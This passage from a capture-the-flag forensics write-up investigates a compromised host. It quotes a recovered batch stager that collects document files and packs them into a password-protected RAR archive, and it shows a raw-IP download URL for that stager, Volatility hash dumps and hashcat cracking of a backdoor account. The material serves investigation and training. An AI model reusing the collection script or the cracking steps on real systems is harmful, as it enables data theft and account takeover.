Answer: http://13.127.18.201/SystemIntegrityCheck.bat

## Collection & Exfiltration

> 19. The threat actor that performed the attack is known for automating the collection of documents and files from compromised systems. The threat actor named their operation against Forela "PK-OPR24." Our reverse engineer said that she found this string commented on multiple occurrences in the analysis of the malicious stager. Reverse the script and provide the file extensions that it collects, in the order they are presented in the code.

First we need to find the script's actual contents. Grepping through bulk_extractor's output, we find the following files:

```sh
$ find . -type f -exec grep -Hi grep -q "PK-OPR24" 
./ntfsmft_carved/012/4922933248.mft_corrupted
./ntfsmft_carved/022/6803739648.mft_corrupted
./sqlite_carved/000/6799991560.sqlite3
./winpe_carved/000/1917956447.winpe
./winpe_carved/000/1917956785.winpe
./winpe_carved/000/1917956925.winpe
./winpe_carved/000/1917957108.winpe
./winpe_carved/000/1917957391.winpe
./winpe_carved/000/1917957519.winpe
./winpe_carved/000/1917958392.winpe
./winpe_carved/000/1917958617.winpe
./winpe_carved/000/1917958718.winpe
./winpe_carved/000/1917958917.winpe
./winpe_carved/002/6798680064.winp
```

Reviewing the first file shows:

```sh
$ cat ./ntfsmft_carved/022/6803739648.mft_corrupted
FILE0I8 }`H)IS�S�G�S��S�
50xZ)IS�S�S�Q=S�`[
                   SYSTEM~1.BAT0r)IS�S�S�Q=S�`[ SystemIntegrityCheck.batx[
set "source=%userprofile%"
set "destination=%temp%\LootDocs"

#PK-OPR24

if not exist "%destination%" mkdir "%destination%"

for /r "%source%" %%a in (*.docx *.docm *.pdf *.xls *.txt *.ppt *.xlsx *.pptx) do (
    copy "%%a" "%destination%"
)

cd %TEMP%\LootDocs
"C:\Program Files\WinRAR\Rar.exe" a Data -p rwajnkhgbdtyalmd


pauseyG
```

Answer: docx, docm, pdf, xls, txt, ppt, xlsx, pptx

> 20. The threat actor archived the collected data using tools like WinRAR, RAR, etc., before exfiltrating it. What is the password with which the TA archived the collected data?

From the script we can see the password used to archive the data.

Answer: rwajnkhgbdtyalmd


## Persistence

> 21.  The threat actor is known to set up and use Remote Access tools. Which tool did the attacker set up for Persistence?

Going through our earlier process list, we can see that they set up TeamViewer as their remote access tool on the machine.

Answer: TeamViewer


> 22. The threat actor created a backdoor user to establish a backup persistence mechanism. What are the credentials of this account?

Using Volatility's `windows.hashdump` plugin, we can get the following hashes:

```bash
$ vol3 -f /challenge/htb/sherlocks/hijacked/Hijacked/Dump.mem windows.hashdump.Hashdump

Administrator   500     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
Guest   501     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount  503     aad3b435b51404eeaad3b435b51404ee        31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtilityAccount      504     aad3b435b51404eeaad3b435b51404ee        ec1088dc122139303d755f9c0ef2197e
CyberJunkie     1001    aad3b435b51404eeaad3b435b51404ee        64f12cddaa88057e06a81b54e73b949b
cyberjunkie12   1002    aad3b435b51404eeaad3b435b51404ee        64f12cddaa88057e06a81b54e73b949b
helpdesk        1003    aad3b435b51404eeaad3b435b51404ee        7e92b8039c9100511e53a53beb2f16b1
```

Cracking the hashes, we get the following passwords:

```sh
$ hashcat -a 0 -m 1000 .\hashes rockyou.txt

...
64f12cddaa88057e06a81b54e73b949b:Password1
7e92b8039c9100511e53a53beb2f16b1:BILA@hud
```

The highest RID is the most recently created account.

Answer: helpdesk:BILA@hud

## Threat Actor Attribution

> 23. What Threat Actor seems to be in question? External Research is required, so keep in mind things like some of the techniques you identified so far, the Region in which they operate, etc.

With everything considered, let's look at some of the TTPs this adversary used.

**Initial Access:**

- T1566 - Phishing through an attachment sent

**Execution**:

- T1059.003 - Command and Scripting Interpreter: Windows Command Shell (SystemIntegrityCheck.bat)
- T1218.005 - System Binary Proxy Execution: Mshta 
- T1218.011 - System Binary Proxy Execution: Rundll32 

**Persistence**:

- T1133 - External Remote Services (TeamViewer was installed)
- T1136.001 - Create Account: Local Account (A helpdesk local account was created)


**Privilege Escalation:**

- T1055.001 - Process Injection: DLL Injection 


Since the target is a Pakistani entity, I checked the [MITRE ATT&CK groups](https://attack.mitre.org/groups/) for those specifically targeting Pakistan:

- BITTER
- Mustang Panda
- Sidewinder
- The White Company

Out of these, the group that most closely matches the TTPs we covered is Mustang Panda.

Answer: Mustang Panda
